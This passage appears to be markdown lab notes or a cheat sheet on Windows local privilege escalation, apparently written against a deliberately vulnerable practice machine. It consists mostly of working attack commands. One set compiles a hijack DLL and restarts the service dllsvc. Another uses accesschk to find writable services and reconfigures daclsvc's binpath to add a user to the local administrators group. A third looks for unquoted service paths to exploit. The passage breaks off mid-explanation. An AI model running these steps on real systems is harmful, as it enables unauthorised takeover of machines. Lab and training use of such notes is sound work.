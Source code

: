 compile

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

save in c:\temp

```
sc stop dllsvc

sc start dllsvc
```

## Service Permissions and path

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

to check services with everyone write access 

to check details:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsv
```

we can replace service configuration with binpath that add local administrator

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

```
sc start daclsvc
```


## Unquoted service path

check for "unquoted" services

eg. we find "blahservice"

```
sc qc blahservice
```

```
BINARY_PATH_NAME = C:\Program Files\Unquoted Path Service\Common Files\unquotedservice.exe
```

that means: when service blah is started, OS will look in paths:

```
c:\program.exe
c:\program files.exe
C:\Program Files\Unquoted Path Service\Common.exe
```
